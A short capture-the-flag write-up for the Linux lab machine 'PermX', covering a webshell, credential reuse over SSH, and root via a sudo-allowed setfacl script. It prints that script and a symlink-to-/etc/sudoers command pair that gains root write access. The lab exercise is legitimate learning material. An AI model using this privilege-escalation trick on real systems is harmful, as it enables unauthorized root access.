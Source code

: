 # PermX \[Linux Easy]

Found the vhost this time, got the public exploit and landed on a webshell. Transfer LinPeas and LinEnum to see cheeky results, learn how to read this stuff

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

User passwd for mtz, ssh w these credentials for user.txt

sudo -l shows us a acl.sh script which can be run

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The last line mentions the command its trying to execute which is to change perms on any file in /home/mtz as long as root is not involved

```
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

We made a **symbolic link to sudoers list** and added our username to it and gave rw perms as shown in last ss for root.txt
